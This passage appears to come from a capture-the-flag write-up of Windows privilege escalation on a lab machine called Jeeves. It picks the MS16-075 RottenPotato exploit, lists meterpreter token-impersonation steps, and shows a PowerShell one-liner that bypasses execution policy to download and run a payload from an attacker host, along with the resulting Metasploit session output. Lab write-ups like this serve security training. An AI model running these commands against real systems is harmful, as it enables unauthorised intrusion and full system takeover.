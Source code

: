 ![Windows Exploit Suggester Output](https://i.imgur.com/fu0dA0L.png "Windows Exploit Suggester Results")

It looks like this machine is vulnerable two a few LPE exploits the big ones being [MS16-075 (RottenPotato)](https://github.com/foxglovesec/RottenPotato) & [MS16-032](https://www.rapid7.com/db/modules/exploit/windows/local/ms16_032_secondary_logon_handle_privesc). From our `sysinfo` output we can rule out `MS16-032` because that particular exploit requires `two cpu(s)`, and this machine has only `one cpu.`

It looks like this machine is vulnerable to MS16-075 (which I would say is fairly reliable when available), and from our eariler `whoami /all` command it seems we have everything in place to successfully execute this exploit.




### Method 1: MS16-075 "RottenPotato" 


The steps to successfully exploit MS16-075 "rotten potato" (with meterpreter) is:
1. Have meterpreter shell
2. Upload RottenPotato/potato exploit executeable
3. Load ignognito on meterpreter session
4. Execute rottenpotato executable
5. Impersonate NT Authority/SYSTEM token
6. You are now system.


_Powershell 1-liner for download + executing file (getting meterpreter shell):_

```powershell
powershell -exec bypass -c "(New-Object Net.WebClient).DownloadFile('http://10.10.15.30:9999/8383.exe','8383.exe')";Start-Process '8383.exe'
``` 

_On Jeeves Host_
```
C:\Users\Administrator\.jenkins>cd %appdata%

C:\Users\kohsuke\AppData\Roaming>powershell -exec bypass -c "(New-Object Net.WebClient).DownloadFile('http://10.10.15.30:9999/8383.exe','8383.exe')";Start-Process '8383.exe'

C:\Users\kohsuke\AppData\Roaming>
```
_Attack Box_

```
msf >
[*] Sending stage (179779 bytes) to 10.10.10.63
[*] Meterpreter session 4 opened (10.10.15.30:8383 -> 10.10.10.63:49682) at 2018-05-16 17:07:54 -0400

msf >
msf > sessions

Active sessions
===============
  Id  Name  Type                    Information              Connection  
  --  ----  ----                     -----------              ----------  
  2         meterpreter x86/windows                           10.10.15.30:8081 -> 10.10.10.63:49761 (10.10.10.63)  
  4         meterpreter x86/windows  JEEVES\kohsuke @ JEEVES  10.10.15.30:8383 -> 10.10.10.63:49682 (10.10.10.63)

```
